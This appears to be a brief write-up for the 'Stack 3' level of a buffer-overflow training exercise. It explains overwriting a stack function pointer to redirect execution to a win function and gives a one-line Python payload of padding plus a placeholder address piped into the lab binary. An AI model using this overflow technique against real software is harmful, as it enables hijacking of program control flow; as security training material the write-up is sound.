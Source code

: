 #Stack 3

Overwriting the fucntion pointer to on the stack. The goal is to change the code flow and call win function.

```
python -c 'print "A" * 72 + "address of win"' | ./stack3 
``` 

Note:
*Still little endian!!!
